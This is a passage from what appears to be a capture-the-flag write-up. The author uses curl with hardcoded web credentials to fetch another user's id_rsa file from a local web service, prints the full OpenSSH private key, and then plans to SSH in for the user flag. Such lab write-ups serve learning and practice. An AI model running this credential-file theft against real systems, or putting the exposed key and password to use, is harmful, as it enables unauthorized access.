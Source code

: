 There appears to be an "id\_rsa" file. Let's see if we can grab it as follows:

> curl --user webapi\_user:iamthebest http://127.0.0.1:3001/\~r.michaels/id\_rsa

```
$ curl --user webapi_user:iamthebest http://127.0.0.1:3001/~r.michaels/id_rsa
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  2610  100  2610    0     0   849k      0 --:--:-- --:--:-- --:--:-- 1274k
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAvXxJBbm4VKcT2HABKV2Kzh9GcatzEJRyvv4AAalt349ncfDkMfFB
Icxo9PpLUYzecwdU3LqJlzjFga3kG7VdSEWm+C1fiI4LRwv/iRKyPPvFGTVWvxDXFTKWXh
0DpaB9XVjggYHMr0dbYcSF2V5GMfIyxHQ8vGAE+QeW9I0Z2nl54ar/I/j7c87SY59uRnHQ
kzRXevtPSUXxytfuHYr1Ie1YpGpdKqYrYjevaQR5CAFdXPobMSxpNxFnPyyTFhAbzQuchD
ryXEuMkQOxsqeavnzonomJSuJMIh4ym7NkfQ3eKaPdwbwpiLMZoNReUkBqvsvSBpANVuyK
BNUj4JWjBpo85lrGqB+NG2MuySTtfS8lXwDvNtk/DB3ZSg5OFoL0LKZeCeaE6vXQR5h9t8
3CEdSO8yVrcYMPlzVRBcHp00DdLk4cCtqj+diZmR8MrXokSR8y5XqD3/IdH5+zj1BTHZXE
pXXqVFFB7Jae+LtuZ3XTESrVnpvBY48YRkQXAmMVAAAFkBjYH6gY2B+oAAAAB3NzaC1yc2
EAAAGBAL18SQW5uFSnE9hwASldis4fRnGrcxCUcr7+AAGpbd+PZ3Hw5DHxQSHMaPT6S1GM
3nMHVNy6iZc4xYGt5Bu1XUhFpvgtX4iOC0cL/4kSsjz7xRk1Vr8Q1xUyll4dA6WgfV1Y4I
GBzK9HW2HEhdleRjHyMsR0PLxgBPkHlvSNGdp5eeGq/yP4+3PO0mOfbkZx0JM0V3r7T0lF
8crX7h2K9SHtWKRqXSqmK2I3r2kEeQgBXVz6GzEsaTcRZz8skxYQG80LnIQ68lxLjJEDsb
Knmr586J6JiUriTCIeMpuzZH0N3imj3cG8KYizGaDUXlJAar7L0gaQDVbsigTVI+CVowaa
POZaxqgfjRtjLskk7X0vJV8A7zbZPwwd2UoOThaC9CymXgnmhOr10EeYfbfNwhHUjvMla3
GDD5c1UQXB6dNA3S5OHArao/nYmZkfDK16JEkfMuV6g9/yHR+fs49QUx2VxKV16lRRQeyW
nvi7bmd10xEq1Z6bwWOPGEZEFwJjFQAAAAMBAAEAAAGAStrodgySV07RtjU5IEBF73vHdm
xGvowGcJEjK4TlVOXv9cE2RMyL8HAyHmUqkALYdhS1X6WJaWYSEFLDxHZ3bW+msHAsR2Pl
7KE+x8XNB+5mRLkflcdvUH51jKRlpm6qV9AekMrYM347CXp7bg2iKWUGzTkmLTy5ei+XYP
DE/9vxXEcTGADqRSu1TYnUJJwdy6lnzbut7MJm7L004hLdGBQNapZiS9DtXpWlBBWyQolX
er2LNHfY8No9MWXIjXS6+MATUH27TttEgQY3LVztY0TRXeHgmC1fdt0yhW2eV/Wx+oVG6n
NdBeFEuz/BBQkgVE7Fk9gYKGj+woMKzO+L8eDll0QFi+GNtugXN4FiduwI1w1DPp+W6+su
o624DqUT47mcbxulMkA+XCXMOIEFvdfUfmkCs/ej64m7OsRaIs8Xzv2mb3ER2ZBDXe19i8
Pm/+ofP8HaHlCnc9jEDfzDN83HX9CjZFYQ4n1KwOrvZbPM1+Y5No3yKq+tKdzUsiwZAAAA
wFXoX8cQH66j83Tup9oYNSzXw7Ft8TgxKtKk76lAYcbITP/wQhjnZcfUXn0WDQKCbVnOp6
LmyabN2lPPD3zRtRj5O/sLee68xZHr09I/Uiwj+mvBHzVe3bvLL0zMLBxCKd0J++i3FwOv
+ztOM/3WmmlsERG2GOcFPxz0L2uVFve8PtNpJvy3MxaYl/zwZKkvIXtqu+WXXpFxXOP9qc
f2jJom8mmRLvGFOe0akCBV2NCGq/nJ4bn0B9vuexwEpxax4QAAAMEA44eCmj/6raALAYcO
D1UZwPTuJHZ/89jaET6At6biCmfaBqYuhbvDYUa9C3LfWsq+07/S7khHSPXoJD0DjXAIZk
N+59o58CG82wvGl2RnwIpIOIFPoQyim/T0q0FN6CIFe6csJg8RDdvq2NaD6k6vKSk6rRgo
IH3BXK8fc7hLQw58o5kwdFakClbs/q9+Uc7lnDBmo33ytQ9pqNVuu6nxZqI2lG88QvWjPg
nUtRpvXwMi0/QMLzzoC6TJwzAn39GXAAAAwQDVMhwBL97HThxI60inI1SrowaSpMLMbWqq
189zIG0dHfVDVQBCXd2Rng15eN5WnsW2LL8iHL25T5K2yi+hsZHU6jJ0CNuB1X6ITuHhQg
QLAuGW2EaxejWHYC5gTh7jwK6wOwQArJhU48h6DFl+5PUO8KQCDBC9WaGm3EVXbPwXlzp9
9OGmTT9AggBQJhLiXlkoSMReS36EYkxEncYdWM7zmC2kkxPTSVWz94I87YvApj0vepuB7b
45bBkP5xOhrjMAAAAVci5taWNoYWVsc0BsdWFubmUuaHRiAQIDBAUG
-----END OPENSSH PRIVATE KEY-----
$ 

```

Now that we have the private SSH key, let's use it to SSH to the target and grab the user flag:
